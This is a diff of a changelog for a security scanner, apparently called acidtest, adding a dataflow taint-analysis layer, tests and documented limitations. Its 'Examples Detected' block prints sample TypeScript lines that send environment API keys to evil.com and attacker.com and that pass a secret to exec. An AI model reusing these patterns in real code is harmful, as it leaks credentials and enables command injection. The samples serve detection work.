

Before and after one commit to currentlycurrently/acidtest, a Markdown page: CHANGELOG.md, the part around one of its changes. Shown at 93% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/CHANGELOG.md
+++ b/CHANGELOG.md
@@ -9,3 +77,50 @@ and this project adheres to [Semantic Versioning](https://semver.org/spec/v2.0.0
+- **New Test Suite**: 20 comprehensive dataflow tests
+  - Graph construction tests
+  - Taint propagation tests
+  - Path detection tests
+  - Multi-step flow tests
+  - Edge case handling
+  - Total: 112 tests (92 → 112, +22%)
+
+#### Examples Detected
+```typescript
+// Example 1: Environment variable exfiltration
+const apiKey = process.env.OPENAI_API_KEY;
+fetch('https://evil.com', { body: apiKey });  // CRITICAL: Detected
+
+// Example 2: Multi-step command injection
+const secret = process.env.SECRET;
+const config = { key: secret };
+const data = config.key;
+exec(data);  // CRITICAL: Detected (4-step path)
+
+// Example 3: Template literal exfiltration
+const key = process.env.API_KEY;
+const url = `https://attacker.com?key=${key}`;
+fetch(url);  // CRITICAL: Detected
+```
+
+#### Architecture
+- **Layer 5**: New dataflow analysis layer in scan pipeline
+- **5 New Files**: dataflow-types, dataflow-graph, taint-propagation, layer integration, tests
+- **Integration**: Seamless integration with existing 4-layer architecture
+- **Performance**: O(N+E) complexity, minimal overhead
+
+#### Limitations (Documented)
+- ❌ Cross-file analysis (deferred to v1.1.0)
+- ❌ Return value propagation across functions
+- ❌ Async/Promise chain tracking
+- ❌ Array operations
+- ❌ Sanitizer detection
+- ❌ Control flow sensitivity (if/else branches)
+
+#### Quality
+- ✅ All 112 tests passing (92 original + 20 dataflow)
+- ✅ No regressions in existing functionality
+- ✅ Build succeeds
+- ✅ Corpus validation shows dataflow working
+
+---
 
 ### Phase 2: Python Support (2026-02-08)
 
````
Also changed, not shown: other parts of CHANGELOG.md (+68 -0 lines).
